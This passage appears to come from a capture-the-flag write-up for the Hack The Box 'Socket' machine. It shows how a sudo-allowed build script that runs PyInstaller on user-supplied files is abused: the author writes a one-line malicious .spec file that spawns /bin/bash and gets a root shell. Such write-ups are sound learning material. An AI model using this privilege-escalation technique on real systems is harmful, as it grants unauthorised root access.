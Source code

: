 ```bash
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

It looks like a simple script that compiles `.py` files, but we notice that we can also specify a `.spec` file.    
If we go to the `pyinstaller` documentation we can read:

![](/assets/images/htb-writeup-socket/spec.png)

So it actually executes the code in the spec file.    
I will make a malicious `.spec` file and I will try to run it with the script as root.

```
tkeller@socket:~$ echo 'import os;os.system("/bin/bash")' > exploit.spec
```

Now that we have the malicious code in `exploit.spec`, we execute the script as root:

```
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build exploit.spec
207 INFO: PyInstaller: 5.6.2
207 INFO: Python: 3.10.6
213 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
221 INFO: UPX is not available.
root@socket:/home/tkeller# whoami
root
```

And we get the shell as root.    
Cheers!

